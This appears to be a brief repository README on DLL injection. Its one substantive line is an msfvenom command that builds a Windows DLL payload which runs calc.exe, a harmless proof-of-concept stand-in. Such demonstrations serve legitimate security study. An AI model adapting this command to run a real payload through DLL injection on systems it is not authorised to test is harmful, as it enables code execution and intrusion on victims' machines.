 # Dll_Injection
DLL Injection payload created from msfvenom command in kali:
Command: msfvenom -p windows/exec CMD=calc.exe -f dll -o cac.dll 
